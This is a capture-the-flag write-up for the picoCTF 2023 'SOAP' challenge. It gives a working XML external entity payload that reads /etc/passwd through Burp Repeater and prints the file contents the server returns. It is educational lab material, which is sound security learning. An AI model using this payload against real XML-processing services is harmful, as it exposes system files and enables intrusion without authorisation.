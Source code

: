 # SOAP

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2023, Web Exploitation, XXE
Author: GEOFFREY NJOGU

Description:
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?

Hints:
1. XML external entity Injection
```
Challenge link: [https://play.picoctf.org/practice/challenge/376](https://play.picoctf.org/practice/challenge/376)

## Solution

It's usually good practice to look through the source code of the web site but in this case we already know what
we are looking for thanks to the hint. For more background on XXE see the references below.

Start [BURP Suite](https://portswigger.net/burp) and set 'Intercept' to off under the Proxy -> Intercept tab. 
Then configure your browser to use Burp as its proxy and go to the web site.

Clicking on any of the 'Details' buttons sends POST requests with the following payload
```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

We will inject code in this payload to read the `/etc/passwd` file.

Under Proxy -> HTTP history tab right-click on any of the POST requests and 'Send to Repeater'.
Then navigate to the Repeater tab.

In the XML-payload add `<!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>` between the first XML-line and `<data>`.  
Then replace the number with `&pico;` and don't change anything else.

In total your XML-payload should look like this
```
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>
  <data>
    <ID>
      &pico;
    </ID>
  </data>
```

The 'pico' name is arbitrary and can be called anything. In many code examples it is called 'data' but I chose 'pico' here.

Press the 'Send'-button to send your request.

The response should look like this
```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Fri, 28 Jul 2023 11:58:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{<REDACTED>}
```

The flag is included in the last line of the `/etc/passwd` file output.

## References

 - [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
 - [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
